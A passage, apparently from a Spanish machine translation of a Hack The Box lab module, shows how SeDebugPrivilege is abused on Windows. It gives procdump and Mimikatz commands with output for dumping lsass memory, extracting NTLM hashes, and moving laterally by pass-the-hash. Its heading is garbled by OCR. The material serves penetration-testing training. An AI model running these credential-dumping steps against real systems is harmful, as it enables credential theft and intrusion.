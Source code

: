   Sedebugurilegio

```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

Esto es exitoso y podemos cargar esto en`Mimikatz`usando el`sekurlsa::minidump`dominio. Después de emitir el`sekurlsa::logonPasswords`Comandos, obtenemos el hash NTLM de la cuenta de administrador local registrada localmente. Podemos usar esto para realizar un ataque de pase para moverse lateralmente si se usa la misma contraseña de administrador local en uno o múltiples sistemas adicionales (comunes en organizaciones grandes).

Nota: Siempre es una buena idea escribir "registrar" antes de ejecutar cualquier comando en "Mimikatz" de esta manera, toda la salida del comando pondrá la salida a un archivo ".txt". Esto es especialmente útil al descargar credenciales de un servidor que puede tener muchos conjuntos de credenciales en la memoria.

  Sedebugurilegio

```cmd-session
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

```